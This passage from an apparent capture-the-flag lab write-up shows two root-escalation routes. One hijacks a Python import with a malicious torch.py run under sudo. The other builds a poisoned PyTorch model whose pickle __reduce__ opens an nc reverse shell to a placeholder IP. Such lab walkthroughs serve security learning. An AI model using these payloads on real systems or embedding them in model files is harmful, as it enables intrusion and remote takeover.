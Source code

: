 Since there is no specifications related to the module we might be able to do some python import hijacking.

![evaluate_model script import functions](/images/HTB-Blurry/evaluate_model_script.png)


First we create a malicious `torch.py` script.

```
echo 'import os; os.system("bash")' > /models/torch.py
```

![Malicious torch.py](/images/HTB-Blurry/malicious_torch_py.png)


We then run `evaluate_model` with sudo.

```
sudo /usr/bin/evaluate_model /models/demo_model.pth
```

A root shell is spawned, allowing us to read the root flag located in `/root`.

![blurry root flag](/images/HTB-Blurry/blurry_root_flag.png)

#### Why is this working?

When a Python script imports a module (such as `torch`), Python searches for the module in various locations, starting with the current directory (which is `/models` in our case). Since we created a file called `torch.py` in the `/models` directory, Python imports our malicious `torch.py` instead of the actual torch library.

After the import, our file is executed and because the script (`evaluate_model.py`) is run as sudo we gain a root shell.



### Pickle deserialization

We can also exploit the target via pickle deserialization. Let's use a python script to generate a malicious model file.

```python
import torch
import torch.nn as nn
import torch.nn.functional as F
import os


class CustomModel(nn.Module):
    def __init__(self):
        super(CustomModel, self).__init__()
        self.linear = nn.Linear(512, 1)

    def forward(self, x):
        return self.linear(x)
    def __reduce__(self):
        return (os.system, ('echo Going for $USER on $HOSTNAME at $(date);rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc YOUR_IP PORT_NUMBER >/tmp/f',))

model = CustomModel()

torch.save(model, 'root.pth')
```
